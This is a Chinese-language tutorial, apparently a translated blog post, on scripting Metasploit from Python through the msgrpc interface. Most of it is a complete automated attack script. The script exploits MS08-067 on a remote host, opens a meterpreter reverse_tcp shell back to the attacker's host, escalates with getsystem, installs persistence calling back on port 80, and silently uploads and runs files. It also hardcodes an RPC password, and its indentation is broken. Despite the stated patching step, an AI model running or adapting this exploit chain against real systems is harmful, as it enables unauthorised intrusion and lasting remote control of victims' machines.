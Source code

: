 ## Python版的Metasploit

pymsf模块是Spiderlabs实现的一个python与Metasploit的msgrpc通信的python模块,但首先你需要先启动msgrpc服务,命令如下:

```
load msgrpc Pass=<password>
```
与msgrpc进行通信其实就是与msfconsole进行通信，首先你需要创建一个msfrpc的类,登录到msgrpc服务器并且创建一个虚拟的终端,然后你就可以在你创建的虚拟终端上面执行多个命令的字符串.你可以调用模块的方法与console.write执行命令,并且通过"console.read"从虚拟终端上面读取输入的值.这篇文章将演示如何使用pymsf模块并且如何开发出一个完整的脚本.

这里有一个函数它创建了一个msfrpc实例,登录到msgrpc服务器,并且创建了一个虚拟终端.

```
def sploiter(RHOST, LHOST, LPORT, session):
    client = msfrpc.Msfrpc({})
    client.login('msf', '123')
    ress = client.call('console.create')
    console_id = ress['id']
```

下一步就是实现把多个字符串发给虚拟终端,通过console.write和console.read在虚拟终端显示与读取:

```
## Exploit MS08-067 ##
commands = """use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST """+RHOST+"""
set LHOST """+LHOST+"""
set LPORT """+LPORT+"""
set ExitOnSession false
exploit -z
"""
print "[+] Exploiting MS08-067 on: "+RHOST
client.call('console.write',[console_id,commands])
res = client.call('console.read',[console_id])
result = res['data'].split('\n')

```

上面的这一小段代码创建了一个MSF的资源文件,这样你就可以通过"resoucen <PathToFile>"命令去执行指定文件里面中一系列的命令.下面我们将通过"getsystem"命令把这个文件的提权,建立一个后门打开80端口来转发.并且永久的运行.最后上传我们的漏洞exp并且在命令模式下面悄悄的安装:

```
# 这个函数会创建一个MSF .rc文件
def builder(RHOST, LHOST, LPORT):
     post = open('/tmp/smbpost.rc', 'w')
     bat = open('/tmp/ms08067_install.bat', 'w')
 
     postcomms = """getsystem
run persistence -S -U -X -i 10 -p 80 -r """+LHOST+"""
cd c:\\
upload /tmp/ms08067_patch.exe c:\\
upload /tmp/ms08067_install.bat c:\\
execute -f ms08067_install.bat
"""
     batcomm = "ms08067_patch.exe /quiet"
     post.write(postcomms); bat.write(batcomm)
     post.close(); bat.close()

```

通过上面的那段代码,将会创建一个.rc的文件.通过msf模块“post/multi/gather/run_console_rc_file”在当前的meterpreter会话中运行生成的文件,并且通过console.write命令从虚拟终端写入数据,通过console.read命令来回显返回内容:

```
## 运行生成的exp ##
runPost = """use post/multi/gather/run_console_rc_file
set RESOURCE /tmp/smbpost.rc
set SESSION """+session+"""
exploit
"""
     print "[+] Running post-exploit script on: "+RHOST
     client.call('console.write',[console_id,runPost])
     rres = client.call('console.read',[console_id])
## Setup Listener for presistent connection back over port 80 ##
     sleep(10)
     listen = """use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 80
set LHOST """+LHOST+"""
exploit
"""
print "[+] Setting up listener on: "+LHOST+":80"
client.call('console.write',[console_id,listen])
lres = client.call('console.read',[console_id])
print lres
```

上面代码中的变量(RHOST, LHOST, LPORT等)都是通过optparse模块从命令终端输入的,完整的脚本托管在github上面,有时候你需要知道脚本的生成的地方都是静态地址,不会在其他的目录生成,例如ms08067的补丁就会在你的/tmp/目录下面。大家只要知道基础然后对下面的代码进行一定的修改就可以编程一个属于你自己的msf自动化攻击脚本,我们建议通过博客里面发表的一些简单的例子出发,然后自己写一个msf攻击脚本:

```
import os, msfrpc, optparse, sys, subprocess
from time import sleep
 
# Function to create the MSF .rc files
def builder(RHOST, LHOST, LPORT):
     post = open('/tmp/smbpost.rc', 'w')
     bat = open('/tmp/ms08067_install.bat', 'w')
 
     postcomms = """getsystem
run persistence -S -U -X -i 10 -p 80 -r """+LHOST+"""
cd c:\\
upload /tmp/ms08067_patch.exe c:\\
upload /tmp/ms08067_install.bat c:\\
execute -f ms08067_install.bat
"""
     batcomm = "ms08067_patch.exe /quiet"
     post.write(postcomms); bat.write(batcomm)
     post.close(); bat.close()
 
# Exploits the chain of rc files to exploit MS08-067, setup persistence, and patch
def sploiter(RHOST, LHOST, LPORT, session):
     client = msfrpc.Msfrpc({})
        client.login('msf', '123')
        ress = client.call('console.create')
        console_id = ress['id']
 
## Exploit MS08-067 ##
     commands = """use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST """+RHOST+"""
set LHOST """+LHOST+"""
set LPORT """+LPORT+"""
set ExitOnSession false
exploit -z
"""
     print "[+] Exploiting MS08-067 on: "+RHOST
     client.call('console.write',[console_id,commands])
     res = client.call('console.read',[console_id])
     result = res['data'].split('\n')
 
## Run Post-exploit script ##
     runPost = """use post/multi/gather/run_console_rc_file
set RESOURCE /tmp/smbpost.rc
set SESSION """+session+"""
exploit
"""
     print "[+] Running post-exploit script on: "+RHOST
     client.call('console.write',[console_id,runPost])
     rres = client.call('console.read',[console_id])
## Setup Listener for presistent connection back over port 80 ##
     sleep(10)
     listen = """use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 80
set LHOST """+LHOST+"""
exploit
"""
     print "[+] Setting up listener on: "+LHOST+":80"
     client.call('console.write',[console_id,listen])
     lres = client.call('console.read',[console_id])
     print lres
 
def main():
        parser = optparse.OptionParser(sys.argv[0] +\
        ' -p LPORT -r RHOST -l LHOST')
        parser.add_option('-p', dest='LPORT', type='string', \
        help ='specify a port to listen on')
        parser.add_option('-r', dest='RHOST', type='string', \
        help='Specify a remote host')
        parser.add_option('-l', dest='LHOST', type='string', \
        help='Specify a local host')
     parser.add_option('-s', dest='session', type='string', \
        help ='specify session ID')
     (options, args) = parser.parse_args()
     session=options.session
     RHOST=options.RHOST; LHOST=options.LHOST; LPORT=options.LPORT
 
     if (RHOST == None) and (LPORT == None) and (LHOST == None):
                print parser.usage
                sys.exit(0)
 
     builder(RHOST, LHOST, LPORT)
     sploiter(RHOST, LHOST, LPORT, session)
 
if __name__ == "__main__":
      main()
      
```